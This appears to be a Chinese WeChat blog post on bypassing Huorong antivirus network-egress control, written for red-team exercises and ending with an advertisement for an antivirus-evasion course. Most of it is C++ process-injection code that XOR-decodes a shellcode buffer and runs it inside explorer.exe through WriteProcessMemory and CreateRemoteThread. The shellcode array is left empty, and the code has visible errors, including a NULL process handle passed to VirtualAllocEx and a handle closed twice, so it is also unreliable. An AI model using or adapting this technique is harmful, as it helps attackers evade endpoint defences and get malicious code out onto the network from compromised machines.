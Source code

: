 #  火绒杀毒联网控制ByPass

原创 朝歌暮酒  [ 我真不是红队啊 ](javascript:void\(0\);)

**我真不是红队啊** ![]()

微信号 yeanxinmingi

功能介绍 阳光白云蓝天与你，缺一不可

____

___发表于_

收录于合集

### 前言：

在攻防演练过程中本人多次遇到防守人员应急或者研发、运维等人员安全意识较高开启火绒联网控制在阻止目标机器出网。

### Bypass联网控制：

这里给出两种方案：

  1. 使用Driver进行Bypass

  2. 注入系统核心进程

#### 使用Driver进行Bypass

这种方案实现起来较难且兼容性不高，但核心其实就是Github中一个开源库：

> https://github.com/send010/KernelHttp

这个库可以让你在R0下便捷的发起HTTP请求。在配合我之前写过的一篇文章来加载驱动：

> http://www.pentester.top/index.php/archives/115/

#### 注入Windows核心程序进行Bypass:

我们注意到在联网控制的默认设置中会存在 **自动放行Windows核心程序** ：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230310224839.png)

那么我们只需要去测试哪些程序被火绒认为是Windows核心程序在注入shellcode到目标程序中就可以了，代码如下：

    
          1. #include <windows.h>
    
      2. #include <tlhelp32.h>
    
      3. #include <iostream>
    
      4. using namespace std;
    
      5. void main(int argv,char** argc) {
    
      6.     PROCESSENTRY32 entry;
    
      7.     entry.dwSize = sizeof(PROCESSENTRY32);
    
      8.     HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
    
      9.     if (Process32First(snapshot, &entry) == TRUE)
    
      10.     {
    
      11.         while (Process32Next(snapshot, &entry) == TRUE)
    
      12.         {
    
      13.             if (stricmp(entry.szExeFile, "explorer.exe") == 0)
    
      14.             {
    
      15.                 HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, true, entry.th32ProcessID);
    
      16.                 if (hProcess == NULL) {
    
      17.                     cout << "[-] 进程句柄打开失败！" << endl;
    
      18.                     return;
    
      19.                 }
    
      20.                 cout << "[+] 进程句柄打开成功!" << hex << hProcess << endl;
    
      21.                 BYTE Buffer[] = {  };
    
      22.                 BYTE Buffer2[sizeof(Buffer)] = { 0 };
    
      23.                 for (int i = 0; i < sizeof(Buffer); i++) {
    
      24.                     int x = Buffer[i] ^ 0xd;
    
      25.                     Buffer2[i] = x;
    
      26.                     printf("%x,", Buffer2[i]);
    
      27.                 }
    
      28.                 LPVOID pBuf = VirtualAllocEx(NULL, NULL, sizeof(Buffer2), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    
      29.                 if (!pBuf) {
    
      30.                     cout << "[-] 内存申请失败" << endl;
    
      31.                     CloseHandle(hProcess);
    
      32.                     return;
    
      33.                 }
    
      34.                 cout << "[+] 内存申请成功，Address:" << hex << pBuf << endl;
    
      35.                 SIZE_T dwWrite = 0;
    
      36.                 if (!WriteProcessMemory(hProcess, pBuf, Buffer2, 1477, &dwWrite))
    
      37.                 {
    
      38.                     cout << "[-] 内存写入失败" << endl;
    
      39.                     CloseHandle(hProcess);
    
      40.                     return;
    
      41.                 }
    
      42.                 cout << "[+] 内存写入成功" << endl;
    
      43.                 getchar();
    
      44.                 HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, NULL,
    
      45.                     (LPTHREAD_START_ROUTINE)pBuf, NULL, 0, 0);
    
      46.                 if (!hRemoteThread) {
    
      47.                     cout << "[-] 创建远程线程失败！" << GetLastError() << endl;
    
      48.                     return;
    
      49.                 }
    
      50.                 cout << "[+] 线程ID:" << hRemoteThread << endl;
    
      51.                 WaitForSingleObject(hRemoteThread, -1);
    
      52.                 CloseHandle(hRemoteThread);
    
      53.                 CloseHandle(hProcess);
    
      54.                 VirtualFreeEx(hProcess, pBuf, 0, MEM_FREE);
    
      55.                 CloseHandle(hProcess);
    
      56.             }
    
      57.         }
    
      58.     }
    
      59.     CloseHandle(snapshot);
    
      60.    
    
      61. }
    
    
    

#### 免杀入门级课程：

 **该课程仅适合免杀入门，有基础的请不要购买**

> https://edu.csdn.net/course/detail/37761

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

